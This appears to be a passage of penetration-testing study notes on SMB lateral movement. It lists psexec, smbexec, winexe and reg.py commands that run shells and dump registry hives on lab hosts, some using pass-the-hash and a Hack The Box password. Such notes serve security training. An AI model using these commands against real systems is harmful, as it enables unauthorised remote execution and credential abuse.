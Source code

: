psexec/smbexec

```bash
# If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 # Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

winexe

```bash
winexe -U active.htb/SVC_TGS%'GPPstillStandingStrong2k18' //10.10.10.100 cmd.exe
```

## Read Registry

```bash
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s
```

---

# MISC

## Common creds

![|650](../../zzz_res/attachments/SMB-creds.png)

## Other references
- [139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)
- [PWK Notes: SMB Enumeration Checklist [Updated]](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

[^1]: https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-for
[^2]: https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-for